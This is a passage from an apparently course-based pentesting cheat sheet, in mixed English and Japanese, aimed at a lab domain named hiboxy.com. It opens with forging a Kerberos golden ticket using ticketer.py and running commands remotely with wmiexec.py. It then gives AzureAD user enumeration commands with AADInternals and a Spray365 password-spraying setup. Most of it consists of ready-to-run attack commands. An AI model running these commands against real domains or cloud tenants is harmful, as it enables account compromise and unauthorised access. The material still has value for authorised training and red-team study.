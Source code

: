     ticketer.py -domain hiboxy.com -domain-sid S-1-5-21-XXXXXXXXXX-YYYYYYYYYY-ZZZZZZZZZZ -nthash REPLACE_THIS_99e7a0d12fd085d9583 pwned
    export KRB5CCNAME=pwned.ccache
    wmiexec.py -k -no-pass -dc-ip 10.130.10.4 file01.hiboxy.com whoami
    ```
    Due to a patch, windwos2019 domain controllers with the patch will validate tha username to make sure it the ID.
<br>

# AzureAD
### AzureAD Recon
* windows
    * import an aadinternals module
    ```
    Import-Module AADInternals
    ```
    * gathering users and domain
    ```
    Invoke-AADIntReconAsOutsider -DomainName hiboxy.com | Format-Table
    ```
    * enumerate users
        * 1ユーザ
        ```
        Invoke-AADIntUserEnumerationAsOutsider -UserName "aparker@hiboxy.com"
        ```
        * 複数ユーザ(DCなどからユーザリストが必要)
        ```
        Get-Content C:\CourseFiles\users.txt | Invoke-AADIntUserEnumerationAsOutsider
        ```
        * 存在するユーザのみを列挙
        ```
        Get-Content C:\CourseFiles\users.txt | Invoke-AADIntUserEnumerationAsOutsider | Where-Object Exists | Select-Object UserName
        ```

### AzureAD Password Spray Attack
* linux
    * preapare user list and users list
    ```
    /tmp/passwords.txt
    /tmp/users.txt
    ```
    * Spray Attack
        * set the plan(eID,cID指定あり)
        ```
        python3.7 /opt/Spray365/spray365.py generate -d hiboxy.com -u /tmp/users.txt -pf /tmp/passwords.txt --delay 2 -eID https://proxy.cloudwebappproxy.net/registerapp -cID "00b41c95-dab0-4487-9791-b9d2c32c80f2" -ep hiboxy.s365
        ```
        * set the plan(eID,cID指定なし)
        ```
        python3.7 /opt/Spray365/spray365.py generate -d hiboxy.com -u /tmp/users.txt -pf /tmp/passwords.txt --delay 2 -ep hiboxy.s365
        ```
        ```
        -d:         domain
        -u:         list of usernames
        -pf:        list of passwords 
        --delay:    How many seconds between each requeset
        --eID:      endpoint portal(認証で利用するエンドポイント)
                    https://github.com/SecurityRiskAdvisors/msspray